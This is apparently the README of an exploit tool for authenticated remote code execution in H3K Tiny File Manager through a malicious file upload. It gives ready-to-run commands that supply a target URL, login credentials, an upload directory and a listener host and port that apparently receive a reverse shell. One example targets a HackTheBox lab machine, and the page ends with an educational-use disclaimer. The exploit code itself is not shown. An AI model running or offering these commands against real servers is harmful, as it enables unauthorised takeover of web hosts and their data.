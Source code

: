 # H3K Tiny File Manager Authenticated Remote Code Execution

An automated process for a malicious file upload in H3K Tiny File Manager in order to achieve RCE. For the `-pr` and `-ph` parameters. Login in to the web application should reveal this to you. These two values are optional.

## Getting Started

### Executing program

* With python3
```
python3 exploit.py -t 'http://hacked.rce/tinyfilemanager.php' -u username -p password -lh 127.0.0.1 -lp 1337
```
* Or
```
python3 exploit.py -t 'http://soccer.htb/tiny/tinyfilemanager.php' -u username -p password -pr 'p' -ph 'directory/uploads' -lh 127.0.0.1 -lp 1337
```

## Help

For help menu:
```
python3 exploit.py -h
```

## Disclaimer
All the code provided on this repository is for educational/research purposes only. Any actions and/or activities related to the material contained within this repository is solely your responsibility. The misuse of the code in this repository can result in criminal charges brought against the persons in question. Author will not be held responsible in the event any criminal charges be brought against any individuals misusing the code in this repository to break the law.